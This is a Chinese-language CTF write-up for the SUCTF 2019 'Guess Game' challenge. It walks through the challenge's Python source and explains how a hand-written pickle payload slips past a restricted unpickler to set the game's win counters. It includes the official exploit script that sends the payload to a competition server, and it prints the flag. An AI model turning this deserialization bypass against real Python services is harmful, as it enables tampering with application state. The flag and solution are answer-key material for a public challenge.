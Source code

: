 # [SUCTF 2019]Guess Game

[题目地址](https://buuoj.cn/challenges#[SUCTF%202019]Guess%20Game)

是不是有个奇怪的题混进了misc？

题目给了源码，立刻觉得不对劲，啥misc会有源码？去看了下还不少，先看__init__.py。


```python
#__init__.py
banner = r'''
  ____                        ____                      
 / ___|_   _  ___  ___ ___   / ___| __ _ _ __ ___   ___ 
| |  _| | | |/ _ \/ __/ __| | |  _ / _` | '_ ` _ \ / _ \
| |_| | |_| |  __/\__ \__ \ | |_| | (_| | | | | | |  __/
 \____|\__,_|\___||___/___/  \____|\__,_|_| |_| |_|\___|


Rule:
    Guess my number!
    If you are right in every round,
    then I will give you flag.
'''

max_round = 10
number_range = 10

from guess_game.Game import Game

game = Game()
```

定义了一些变量，没啥看的。

```python
#game_server.py
from guess_game.Ticket import Ticket
from guess_game.RestrictedUnpickler import restricted_loads
from struct import unpack
from guess_game import game
import sys


def get_flag():
    with open('/flag', 'r') as f:
        flag = f.read().strip()
    return flag


def read_length(obj):
    return unpack('>I', obj)


def stdin_read(length):
    return sys.stdin.buffer.read(length)


try:
    while not game.finished():
        length = stdin_read(4)
        length, = read_length(length)

        ticket = stdin_read(length)
        ticket = restricted_loads(ticket)

        assert type(ticket) == Ticket

        if not ticket.is_valid():
            print('The number is invalid.')
            game.next_game(Ticket(-1))
            continue

        win = game.next_game(ticket)
        if win:
            text = "Congratulations, you get the right number!"
        else:
            text = "Wrong number, better luck next time."
        print(text)

    if game.is_win():
        text = "Game over! You win all the rounds, here is your flag %s" % get_flag()
    else:
        text = "Game over! You got %d/%d." % (game.win_count, game.round_count)
    print(text)

except Exception:
    print('Houston, we got a problem.')
```

这里只是调用，关键判断逻辑都不在这里面。按顺序看，先看restricted_loads是个什么玩意。

```python
#RestrictedUnpickler.py
import io
import pickle
import sys


class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        # Only allow safe classes
        #要求必须是guess_game模块下的game，且name里不带"__"（带了通常都是不安全的rce调用）
        if "guess_game" == module[0:10] and "__" not in name:
            return getattr(sys.modules[module], name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))


def restricted_loads(s):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(s)).load()
```

RestrictedUnpickler继承自[pickle.Unpickler](https://docs.python.org/3/library/pickle.html#pickle.Unpickler)，重写了其中的find_class方法。[getattr](https://www.runoob.com/python/python-func-getattr.html)函数获取[sys.modules](https://www.cnblogs.com/zhaojingyu/p/9069076.html)（一个全局字典，记录导入的模块）的module模块的name属性值。这个name属性值应该也是个pickle.Unpickler对象，查官方文档似乎没看见有第二个类有这个方法。

```python
#Game.py
from random import randint
from guess_game.Ticket import Ticket
from guess_game import max_round, number_range


class Game:
    def __init__(self):
        number = randint(0, number_range)
        self.curr_ticket = Ticket(number)
        self.round_count = 0
        self.win_count = 0

    def next_game(self, ticket):
        win = False
        if self.curr_ticket == ticket:
            self.win_count += 1
            win = True

        number = randint(0, number_range)
        self.curr_ticket = Ticket(number)
        self.round_count += 1

        return win

    def finished(self):
        return self.round_count >= max_round

    def is_win(self):
        return self.win_count == max_round
```

Game.py就是判断赢没赢，游戏是否结束等逻辑。正常靠猜几乎不可能赢，不过刚才有个pickle反序列化，能否利用一下？来看看[wp](https://zhuanlan.zhihu.com/p/90798308)中手写的optcode干了什么。

```
cguess_game
game
}S"win_count"
I10
sS"round_count"
I9
sb
```

翻译一下：

```
c：引入模块和对象，模块名和对象名以换行符分割。（find_class校验就在这一步，要求我们只能引入guess_game模块。要是c这个OPCODE的参数没有被find_class限制，其他地方获取的对象就不会被沙盒影响）
}：push一个空的字典，相当于push {}
S: push一个字符串
I: push一个整型
s: 按照wp的理解以及一些参考文章，pop两位 ，然后作为字典的key和value，这个跟pyc的代码是类似的。
b: 调用__setstate__ 或者 __dict__.update()
```

所以整体的意思是：

```
cguess_game 
game                   向栈压入guess_game.game
}                      压入空字典
S"win_count"           压入字符串"win_count"    
I10                    压入数字10
s                      设置字典键值对{"win_count":10}
S"round_count"         压入字符串"round_count"
I9                     压入数字9
s                      设置字典键值对{"round_count":9}
b                      调用guess_game.game.__dict__.update({"win_count":10,"round_count":9})
```

把guess_game.game的win_count和round_count改为符合获胜条件的值。至于为什么要手写，因为如果直接写from guess_game import game, 然后修改再 dumps 这个 game 的话, 是在运行时重新新建一个 Game 对象, 而不是从 guess_game 这个 module 里面获取。这样还不够，下面的代码：

```python
ticket = restricted_loads(ticket)
assert type(ticket) == Ticket
```

要求栈顶为一个 Ticket。这比较简单, 可以直接dumps 一个 Ticket 然后拼到之前手写的内容后面就可以了。官方wp：

```python
import pickle
import socket
import struct

s = socket.socket()
s.connect(('47.111.59.243', 8051))

exp = b'''cguess_game
game
}S"win_count"
I10
sS"round_count"
I9
sbcguess_game.Ticket\nTicket\nq\x00)\x81q\x01}q\x02X\x06\x00\x00\x00numberq\x03K\xffsb.'''

s.send(struct.pack('>I', len(exp)))
s.send(exp)

print(s.recv(1024))
print(s.recv(1024))
print(s.recv(1024))
print(s.recv(1024))
```

## Flag
> flag{36cc8cc6-f139-44ee-8d39-9cbfb95317b6}